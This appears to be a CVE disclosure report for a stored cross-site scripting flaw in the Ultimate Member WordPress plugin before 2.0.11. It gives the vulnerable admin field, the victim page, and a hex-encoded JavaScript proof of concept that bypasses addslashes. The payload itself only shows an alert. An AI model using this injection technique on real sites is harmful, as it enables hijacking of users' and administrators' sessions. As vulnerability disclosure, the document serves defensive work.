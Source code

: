 [Suggested description]
 Authenticated Cross site Scripting exists in the User Profile & Membership plugin before 2.0.11 for WordPress via the
 "Account Deletion Custom Text"
 input field on the wp-admin/admin.php?page=um_options&section=account page.
 
 ------------------------------------------
 
 [Additional Information]
 In order to execute javascript payloads with strings you need to apply hex encoding because of addslashes like:
 
 <script>
     function hex2a(hexx) {
         var str = 0;
         for (index = 0, len = hexx.length; index < len; ++index) {
         var hex = hexx[index].toString(16);
         
         for (var i = 0; i < hex.length; i += 2)
             str += String.fromCharCode(parseInt(hex.substr(i, 2), 16));
         }
         return str.slice(1);
     }
 
     var decode = [0x68, 0x74, 0x74, 0x70, 0x3a, 0x2f, 0x2f]
 
     var string = hex2a(decode);
     alert(string);
 </script>
 ------------------------------------------
 
 [Vulnerability Type]
 Cross Site Scripting (XSS)
 
 ------------------------------------------
 
 [Vendor of Product]
 https://ultimatemember.com/
 
 ------------------------------------------
 
 [Affected Product Code Base]
 User Profile & Membership plugin for WordPress - All versions <  2.0.11
 
 ------------------------------------------
 
 [Affected Component]
 User Profile & Membership plugin for WordPress
 
 ------------------------------------------
 
 [Attack Type]
 Local
 
 ------------------------------------------
 
 [CVE Impact Other]
 Stored Cross Site Scripting
 
 ------------------------------------------
 
 [Attack Vectors]
 Authenticated attackers could abuse the "Account Deletion Custom Text"
 input field on the following page:
 
 "http://<target/wp-admin/admin.php?page=um_options&section=account"

 to inject malicious javascript. Whenever a victim would visit the
 page: 
 
 "http://<target/account/" to manage their account details the
 
 malicious javascript will be executed against the Wordpress
 users/administrators.
 
 ------------------------------------------
 
 [Has vendor confirmed or acknowledged the vulnerability?]
 true
 
 ------------------------------------------
 
 [Discoverer]
 Riccardo ten Cate
 
 ------------------------------------------
 
 [Reference]
 https://github.com/riiecco/write-ups/CVE-2018-10234
